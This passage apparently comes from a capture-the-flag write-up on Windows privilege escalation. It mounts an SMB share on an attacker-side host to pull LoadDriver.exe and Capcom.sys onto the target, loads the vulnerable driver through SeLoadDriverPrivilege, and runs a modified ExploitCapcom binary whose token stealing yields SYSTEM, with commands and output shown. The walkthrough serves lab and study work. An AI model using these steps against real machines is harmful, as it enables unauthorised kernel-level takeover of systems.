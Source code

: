 
Connect the target machine to the share. 

{% highlight text %}
net use z: \\10.10.14.6\rock /USER:rock ThanksForReading
{% endhighlight %}


Create a temp folder and copy LoadDriver.exe and Capcom.sys inside. 

{% highlight text %}
cd \temp
copy z:\LoadDriver.exe .
copy z:\Capcom.sys .
{% endhighlight %}

Load the driver inside the system. <strong>(Don't use double backslash !!!)</strong>

{% highlight text %}
C:\temp> .\LoadDriver.exe System\CurrentControlSet\ThanksForReading C:\temp\Capcom.sys

[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-2633719317-1471316042-3957863514-1104\System\CurrentControlSet\ThanksForReading
NTSTATUS: c0000033, WinError: 0

{% endhighlight %}

### Exploit the driver

To abuse the driver, we need to use this [exploit](https://github.com/tandasat/ExploitCapcom).

> <em>This is a standalone exploit for a vulnerable feature in Capcom.sys. The feature is exposed through IOCTL and to execute an arbitrary user supplied function pointer with disabling SMEP. This exploit simply abuses the feature to perform token stealing to get the SYSTEM privileges, and then launches the command prompt with the elevated privilege.</em>

When running the exploit, it opens an elevated shell, but the problem is that we don't have a proper session on the target machine. Hence we need to adapt the exploit to fit our needs. 

I created a modified version of the exploit that you can find [here](https://github.com/GregoryGraindorge/ExploitCapcomMod). I already compiled it so if you don't want to do it yourself, just download the latest release and run it on the target machine. 

Long story short, I just modified the last function of the original program to execute a command instead of spawning a new shell.

To use it, download or compile ExploitCapcom.exe and upload it on the target machine. Then you can run a command like this:

{% highlight text %}
.\ExploitCapcom.exe "whoami"

[*] Capcom.sys exploit
[*] Capcom.sys handle was obtained as 0000000000000064
[*] Shellcode was placed at 000001D89AC60008
[+] Shellcode was executed
[+] Token stealing was successful
nt authority\system
{% endhighlight %}
